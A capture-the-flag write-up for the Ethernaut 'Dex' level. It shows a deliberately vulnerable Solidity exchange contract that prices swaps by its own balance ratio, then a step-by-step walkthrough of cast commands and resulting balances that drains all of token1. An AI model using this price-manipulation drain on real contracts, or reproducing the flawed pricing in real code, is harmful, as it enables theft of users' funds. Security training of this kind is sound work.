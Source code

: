 ## Dex Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b0276F85EF92432fBd6529E169D9dE4aD337b1F)

## Solution

Because the exchange rate is based on the ratio of `token1` to `token2`, we can **continouly swap the two tokens for each other** till there one of the tokens have no supply left in the contract due to solidity having no floating points.

### Walkthrough
##### 1. Call the dex's approve function so that we can make the swaps
```console
cast send $LEVEL_ADDRESS "approve(address,uint)" $LEVEL_ADDRESS 1000 --gas 90000 --private-key $PRIVATE_KEY
```

##### 2. Let's find the address of token1 and token2
```console
cast call $LEVEL_ADDRESS "token1()"
```
```console
cast call $LEVEL_ADDRESS "token2()"
```

##### 3. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 10 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 20

[Dex balance after transaction]
token1 : 110 
token2 : 90
```

##### 4. Swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 20 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 24
token2 : 0

[Dex balance after transaction]
token1 : 86 
token2 : 110
```

##### 5. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 24 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 30

[Dex balance after transaction]
token1 : 110 
token2 : 80
```

##### 6. Swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 30 --gas 250000 \ 
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 41
token2 : 0 

[Dex balance after transaction]
token1 : 69
token2 : 110
```

##### 7. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 41 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 65

[Dex balance after transaction]
token1 : 110 
token2 : 45
```

##### 8. We cannot swap 65 `token2` to `token1` as we would expect to receive 158 `token1` in return which is more than the supply in the contract. To drain the contract for all 110 `token1`, we need to swap 45 `token2` to get 110 `token1`
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 45 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 110
token2 : 20

[Dex balance after transaction]
token1 : 0 
token2 : 90
```

> Dex's token1 supply has now been drained


### [:arrow_left: Back To Main Menu](../README.md)
